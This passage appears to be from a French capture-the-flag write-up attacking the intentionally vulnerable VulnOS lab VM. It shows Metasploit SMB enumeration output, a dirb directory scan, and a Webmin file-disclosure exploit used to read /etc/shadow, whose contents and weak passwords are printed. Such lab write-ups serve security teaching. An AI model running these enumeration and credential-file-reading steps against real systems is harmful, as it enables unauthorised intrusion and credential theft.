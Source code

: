 ```plain
msf auxiliary(smb_enumshares) > exploit

[*] 192.168.1.29:139 - Unix Samba 3.4.7 (Unknown)
[+] 192.168.1.29:  print$ - (DISK) Printer Drivers
[+] 192.168.1.29:  IPC$ - (IPC) IPC Service (VulnOS server (Samba
[+] Ubuntu))
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf auxiliary(smb_enumusers) > exploit

[*] 192.168.1.29 VULNOS [ stupiduser, ftp, nobody, sysadmin, vulnosadmin, webmin, hackme, sa ] ( LockoutTries=0 PasswordMin=5 )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Côté serveur web il y a là aussi énormément d'applis (trouvées via dirb) :  

```plain
---- Scanning URL: http://192.168.1.29/ ----
+ http://192.168.1.29/.htaccess (CODE:200|SIZE:501)
+ http://192.168.1.29/cgi-bin/ (CODE:403|SIZE:288)
==> DIRECTORY: http://192.168.1.29/drupal6/
==> DIRECTORY: http://192.168.1.29/egroupware/
==> DIRECTORY: http://192.168.1.29/imgs/
+ http://192.168.1.29/index (CODE:200|SIZE:745)
+ http://192.168.1.29/index2 (CODE:200|SIZE:1066)
==> DIRECTORY: http://192.168.1.29/javascript/
==> DIRECTORY: http://192.168.1.29/mediawiki/
==> DIRECTORY: http://192.168.1.29/phpgroupware/
==> DIRECTORY: http://192.168.1.29/phpldapadmin/
==> DIRECTORY: http://192.168.1.29/phpmyadmin/
==> DIRECTORY: http://192.168.1.29/phppgadmin/
==> DIRECTORY: http://192.168.1.29/phpsysinfo/
+ http://192.168.1.29/server-status (CODE:403|SIZE:293)
```

Quand on arrive sur le Drupal, d'autres liens nous sont encore donnés comme un DVWA, un dolibarr, mutillidae etc..  

J'ai décidé de bouder les applications volontairement vulnérables qui donnent peu d'intérêt pédagogique.  

Un pied dans la porte
---------------------

Du côté du Webmin ce dernier est vulnérable au module *file\_disclosure* de *Metasploit*, on peut ainsi récupérer le /etc/shadow :  

```plain
root:*:16137:0:99999:7:::
(...snip...)
vulnosadmin:$6$SLXu95CH$pVAdp447R4MEFKtHrWcDV7WIBuiP2Yp0NJTVPyg37K9U11SFuLena8p.xbnSVJFAeg1WO28ljNAPrlXaghLmo/:16137:0:99999:7:::
sysadmin:admin:16137:0:99999:7:::
webmin:webmin:16137:0:99999:7:::
hackme:hackme:16137:0:99999:7:::
sa:password1:16137:0:99999:7:::
stupiduser:stupiduser:16137:0:99999:7:::
messagebus:*:16137:0:99999:7:::
distccd:*:16137:0:99999:7:::
sshd:*:16138:0:99999:7:::
openldap:!:16138:0:99999:7:::
ftp:!:16138:0:99999:7:::
mysql:!:16138:0:99999:7:::
```